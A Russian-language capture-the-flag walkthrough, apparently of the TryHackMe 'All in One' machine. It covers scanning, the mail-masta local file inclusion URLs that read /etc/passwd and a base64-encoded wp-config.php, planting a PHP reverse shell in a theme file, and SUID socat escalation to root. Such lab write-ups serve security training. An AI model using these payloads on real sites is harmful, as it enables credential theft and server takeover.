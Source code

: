 # All in One

:white_check_mark: [**Wpscan plugins enum**](#wpscan_plugins)

:white_check_mark: [**Wordpress mail-masta exploit**](#mail-masta)

:white_check_mark: [**Socat(privesc)**](#socat)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV all.thm
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.61.235
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Подключившись к ftp ничего не было найдено.

Главная страница all.thm:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/1.png)

Сбрутим директории all.thm:
```
gobuster dir -u http://all.thm/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```

```
/index.html           (Status: 200) [Size: 10918]
/wordpress            (Status: 301) [Size: 306] [--> http://all.thm/wordpress/]
```

Страница all.thm/wordpress/:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/2.png)

<a name="wpscan_plugins"></a>

Используем wpscan, чтобы перебрать пользователей и увидеть возможные уязвимости:
```
wpscan --url http://all.thm/wordpress --enumerate u
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/3.png)

<a name="mail-masta"></a>

```
wpscan --url http://all.thm/wordpress --enumerate ap
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/4.png)

Найдем [эксплоит](https://www.exploit-db.com/exploits/40290) **mail-masta**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/5.png)

Сам эксплоит:
```
http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

Нужно модифицировать его, чтобы достать wp-config.php. В интернете я нашел данную [статью](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/). Теперь наш экплоит будет выглядеть так:
```
http://all.thm/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

Получаем конфиг.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/6.png)

Раздекодив конфиг, получаем пароль от пользователя elyana.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/7.png)

Переходим в директорию /wordpress/wp-admin/ и логинимся.

Переходим в редактор тем и переключаем тему на twentyseventeen. Затем в 404.php заливаем php reverse shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/16.png)

Запускаем слушаель и открываем наш файл:
```
http://all.thm/wordpress/wp-content/themes/twentyseventeen/404.php
```

Получаем shell

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/8.png)

Перейдем в домашнюю директорию elyana. У нас нет доступа к user.txt, но нам оставили подсказку, что пароль от пользователя находится где-то в системе.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/9.png)

Запустив linpeas я нашел странный файл. В нем оказался пароль от пользователя.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/10.png)

Заходим под пользователя Elyana.

Также linpeas выявил ряд уязвимостей.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/11.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/12.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/13.png)

<a name="socat"></a>

Мы будем использовать уязвимость SUID для socat. Для этого на сайте [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) найдем эксплоит.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/14.png)

Используем команду и получаем рута.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/All_in_One/15.png)
